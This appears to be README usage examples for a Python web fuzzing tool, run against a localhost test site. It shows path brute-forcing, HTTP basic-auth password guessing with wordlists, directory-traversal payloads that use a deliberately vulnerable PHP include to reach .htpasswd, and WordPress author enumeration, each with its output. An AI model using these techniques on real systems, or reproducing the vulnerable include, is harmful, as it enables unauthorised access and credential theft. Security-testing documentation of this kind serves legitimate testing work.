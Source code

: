 ## Examples
### Brute forcing paths
We use a dictionary of file names and hide 404 codes:

    $ cat testdic.txt
    admin
    temp
    sarasasasa
    backdoor
    user
    panel
    aaaaa

    $ python2 popper.py 'http://localhost/poppertest/[file].php' --file testdic.txt --hc 404
    302 8    194      0.000137 http://localhost/poppertest/user.php
    200 7    166      5.3e-05  http://localhost/poppertest/panel.php
    401 57   1539     0.000602 http://localhost/poppertest/admin.php

Hidden: 5


### Brute forcing http user and password
Now we use two payloads, one for users and another for passwords, brute forcing both at the same time. --file arguments will be used in order:

    $ cat userdic.txt
    user
    root
    admin

    $ cat passworddic.txt
    1234
    12345
    admin
    letmein
    toor

    Hidden: 23
    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt
    401 57   1539     0.00254  http://root:12345@localhost/poppertest/admin.php
    401 57   1539     0.001611 http://root:1234@localhost/poppertest/admin.php
    401 57   1539     0.001897 http://root:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001712 http://root:toor@localhost/poppertest/admin.php
    401 57   1539     0.001264 http://user:12345@localhost/poppertest/admin.php
    401 57   1539     0.00077  http://user:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001313 http://user:admin@localhost/poppertest/admin.php
    401 57   1539     0.001513 http://user:1234@localhost/poppertest/admin.php
    401 57   1539     5.6e-05  http://admin:1234@localhost/poppertest/admin.php
    401 57   1539     4.9e-05  http://admin:toor@localhost/poppertest/admin.php
    401 57   1539     6.4e-05  http://admin:admin@localhost/poppertest/admin.php
    401 57   1539     0.005372 http://admin:12345@localhost/poppertest/admin.php
    200 8    175      0.000302 http://admin:letmein@localhost/poppertest/admin.php
    401 57   1539     0.000719 http://user:toor@localhost/poppertest/admin.php
    401 57   1539     0.000617 http://root:admin@localhost/poppertest/admin.php

    Hidden: 0

We can, again, hide uninteresting results:

    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt --hc 401
    200 8    175      0.004078 http://admin:letmein@localhost/poppertest/admin.php

    Hidden: 14


### Brute forcing LFI

    $ cat include.php
    <?PHP include('./'.$_GET['include']);

    $ python2 popper.py 'http://localhost/poppertest/news/include.php?include=[repeat].htpasswd' --repeat 10 ../
    200 11   552      0.000613 http://localhost/poppertest/news/include.php?include=../../../../.htpasswd
    200 11   546      0.001891 http://localhost/poppertest/news/include.php?include=../../../.htpasswd
    200 11   588      0.001274 http://localhost/poppertest/news/include.php?include=../../../../../../../../../../.htpasswd
    200 11   534      0.001067 http://localhost/poppertest/news/include.php?include=../.htpasswd
    200 11   564      0.001231 http://localhost/poppertest/news/include.php?include=../../../../../../.htpasswd
    200 11   570      0.00132  http://localhost/poppertest/news/include.php?include=../../../../../../../.htpasswd
    200 11   582      0.002143 http://localhost/poppertest/news/include.php?include=../../../../../../../../../.htpasswd
    200 9    188      0.004141 http://localhost/poppertest/news/include.php?include=../../.htpasswd
    200 11   576      0.003028 http://localhost/poppertest/news/include.php?include=../../../../../../../../.htpasswd
    200 11   558      3e-05    http://localhost/poppertest/news/include.php?include=../../../../../.htpasswd

There is one request with 9 lines instead of 11. This is the one with the .htpasswd file


### Enumerating wordpress users
Now we will be using [range] to find some numeric ids and --threads 30 to speed up the process. This particular website redirects valid ids to /author/USERNAME

    python2 popper.py 'http://localhost/poppertest/wordpress/?author=[range]' --range 1,1000 --threads 30 --hc 404
    301 11   436      0.360397 http://localhost/poppertest/wordpress/?author=2
    301 11   433      0.357481 http://localhost/poppertest/wordpress/?author=5
    301 11   434      0.375045 http://localhost/poppertest/wordpress/?author=1
    301 11   433      0.631637 http://localhost/poppertest/wordpress/?author=79
    301 11   437      0.595769 http://localhost/poppertest/wordpress/?author=91
    301 11   433      0.632835 http://localhost/poppertest/wordpress/?author=102
    200 375  18685    0.873635 http://localhost/poppertest/wordpress/?author=101
    301 11   442      0.571062 http://localhost/poppertest/wordpress/?author=144
    301 11   433      0.604039 http://localhost/poppertest/wordpress/?author=147
    301 11   433      0.60503  http://localhost/poppertest/wordpress/?author=157
    301 11   434      0.599448 http://localhost/poppertest/wordpress/?author=194
    301 11   433      0.686675 http://localhost/poppertest/wordpress/?author=203
    301 11   433      0.489501 http://localhost/poppertest/wordpress/?author=232
    301 11   434      0.456722 http://localhost/poppertest/wordpress/?author=267
    301 11   435      0.603057 http://localhost/poppertest/wordpress/?author=422
    301 11   433      0.691517 http://localhost/poppertest/wordpress/?author=558
    301 11   434      0.457889 http://localhost/poppertest/wordpress/?author=678
    301 11   434      0.615434 http://localhost/poppertest/wordpress/?author=780
    301 11   438      0.589926 http://localhost/poppertest/wordpress/?author=844

    Hidden: 981
